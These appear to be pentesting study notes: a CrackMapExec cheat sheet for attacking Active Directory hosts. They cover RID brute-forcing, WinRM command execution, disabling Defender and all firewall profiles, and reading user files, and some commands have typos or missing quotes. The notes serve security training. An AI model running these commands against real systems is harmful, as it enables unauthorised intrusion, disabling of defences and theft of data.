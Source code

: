 **SwisArmy CrackMapExec ENUM 2**
- Enumerate RID : Relative Identifier (RID) is a variable length number that is assigned to objects at creation and becomes part of the Objet's Security Identifier (SID) that uniquely identifies an account or group within a domain. Domain SID is same on a same domain but RID is different per object. Windows creates a RID by default in Active Directory. Example, RID 501 for administrator, 502 for default and 503 for guest account.
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --rid-brute` It will also show which are group, users, alias.
- Enumerate Password Policy
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --pass-pol` <br> <br>

**SiwsArmy CrackMapExec Command Execution**
-  `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -x 'whoami'`
-  Where 192.168.1.54 have a local domain access, -x is a commandline, -X powershell script or command line.
-  `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'whoami'`
-  Verify local admin access
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'whoami /groups'`
  - If it is a part of BUILTIN\Administrator, it has local admin access on the machine.
  - Giving local admin access means giving them full control over the local computer.
- Get Computer Status : like antivirus status, protections, real time protection.
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Get-MpComputerstatus`
- If we are a domain admin, we can disable such things.
- Disable Monitoring
  - `crackmapexc winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Set-MpPreference -DisableRealtimeMonitoring $true`
- Disable Antivirus
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Set-MpPreference -DisableIOAVProtection $true`
- Verify if these are disabled or not
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Get-MpComputerstatus'`
- View all profiles, public private, firewalls
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'netsh advfirewall show allprofiles'`
  - If they are enabled, disable with
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'netsh advfirewall set allprofiles state off'`
- Enumerate Directories
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'dir C:\Users\ippsec'`  
- Read Files
  - `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'type C:\Users\ippsec\users.txt'`

### References
- [TCM Security - Heath Adams](https://academy.tcm-sec.com) (Most of the contents)
- [Top Five Ways I Got Domain on Your Internal Network Before Launch By Adam Toscher.](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [Practical Ethical Hacking By TCM Security.](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- [Active Directory Pentesting - Red Team By I.T & Security.](https://www.youtube.com/watch?v=gSpQMzINB6U&list=PLziMzyAZFGMf8rGjtpV6gYbx5hozUNeSZ)
- https://www.youtube.com/watch?v=ajOr4pcx6T0
- https://medium.com/@Shorty420/kerberoasting-9108477279cc
- https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
- https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/

